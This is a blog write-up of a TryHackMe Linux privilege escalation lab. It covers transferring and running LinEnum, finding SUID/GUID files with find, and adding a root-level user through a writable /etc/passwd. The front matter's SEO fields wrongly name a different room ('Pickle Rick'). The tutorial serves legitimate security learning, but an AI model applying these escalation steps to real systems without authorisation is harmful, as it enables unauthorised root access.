 ```yaml
---
title: TryHackMe - Common Linux Privesc
date: '2021-12-12'
thumb_img_alt: lorem-ipsum
content_img_alt: Icelandic horses
excerpt: Follow along with this "Easy" rated box on TryHackMe to save Pickle Rick.
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
thumb_img_path: /images/icon-b8182a98.png
content_img_path: /images/banner.png
---
```

TryHackMe - Common Linux Privesc (Privilege Escalation): <https://tryhackme.com/room/commonlinuxprivesc>

This box is listed as Easy .  It provides walk-throughs and practice of common linux privilege escalation vectors.  This will not be a walk-through of the machine, but instead a reiteration of the common privesc vectors taught and practiced in the room.

# | What is Privesc?|

Let's start by discussing what "privesc" is.  Essentially, privesc (privilege escalation) is leveraging access to a low pricilege account to move to a higer privilege account (eg user to root).  Privesc can occur in two directions: horizontal and vertical.  In horizontal privesc, access is gained to an account of the same privilege level. This can be beneficial to access private files or if the new user has SUIDs we can exploit.  In vertical privesc, access is gained to an account with more access to the system (admin / root).  Read through the provided information in each of the three tasks and complete each section.

# | Enumeration |

## LinEnum

LinEnum is a bash script which performs common commands related to privesc.  It can be downloaded from:

<https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh>

Two ways to get LinEnum onto the target machine:

First - start a python webserver from the directory with your copy of LinEnum.sh. (python3 -m http.server 8000).  Then, wget the file from the target machine (wget \[LOCAL_IP]:8000/LinEnum.sh).  After it has been transfered to the target machine, make the file executable (chmod +x LinEnum.sh).

Second - Provided you have the required permissions, copy the raw code and create a .sh file in vi/nano/etc and paste the code.  Make the file executable.

LinEnum can be run as \`./LinEnum.sh\`

![](/images/LinEnum-bf8e2df3.PNG)

LinEnum provides a lot of information.  Take the time to read the provided documentation and understand what gets returned.

# | Abusing SUID/GUID Files |

a SUID is a file (as everything in Linux is) which can be run as the owner regardless of the accessing user (in this case run as root).  These can be leveraged to get a shell and root access.  SUID permissions look like:

\`rws-rwx-rwx\`

whereas GUID permissions look like:

\`rwx-rws-rwx\`

These SUID/GUIDs are reported by LinEnum, but can be searched for manually using:

\`find / -perm -u=s -type f 2>/dev/null\`

\`find - search command

/ - search entire file system

\-perm - find specific permissions

\-u=s - any of the permission bits mode are set for the file

\-type f - only searches for files

2>/dev/null - sends errors to null where they're deleted\`

![](/images/SUID.PNG)

# | Exploiting Writeable /etc/passwd |

#### Understanding /etc/passwd format

USERNAME:PASSWORD\*:USER_ID:GROUP_ID:USER_ID_INFO:HOME_DIRECTORY:COMMAND/SHELL

an x character in the password spot indicates the encrypted password is stored in /etc/shadow

Before adding a new user, a compliant password hash must be created (salt:new using new:123)

![](/images/salted%20hash.PNG)

Next, we can nano the passwd file and add our new user

![](/images/created_new-fc2f2b5d.PNG)

switch user (su) and proof of function

![](/images/new_root.PNG)

